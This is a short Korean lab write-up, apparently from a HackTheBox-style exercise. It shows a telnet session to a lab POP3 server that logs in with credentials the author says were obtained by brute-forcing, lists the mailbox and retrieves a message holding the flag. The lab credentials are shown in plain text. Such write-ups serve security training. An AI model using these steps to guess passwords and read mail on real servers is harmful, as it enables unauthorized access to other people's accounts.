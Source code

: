 ## telnet POP3 접속

POP3 관련 절차는 별도 포스트에 있습니다 → [POP3 포스트 보기](../imap-pop3).

`telnet`로 POP3 프토토콜에 접속하여 브루트포싱으로 획득한 자격증명으로 로그인 성공을 확인하였다.

```bash
$ telnet 10.129.179.133 110
Trying 10.129.179.133...
Connected to 10.129.179.133.
Escape character is '^]'.
+OK POP3
USER marlin@inlanefreight.htb
+OK Send your password
PASS poohbear
+OK Mailbox locked and ready
```

## Flag 획득 

이후, `LIST` 명령어로 메시지 존재 여부를 확인하였다.

```bash
LIST

+OK 1 messages (601 octets)
1 601
.
```

그 후, `RETR 1` 명령어를 활용하여 메세지를 열람한 결과

![Domain](/assets/network-screenshots/smtp/flag.png)

이렇게 최종적으로 **flag**를 확보할 수 있었다.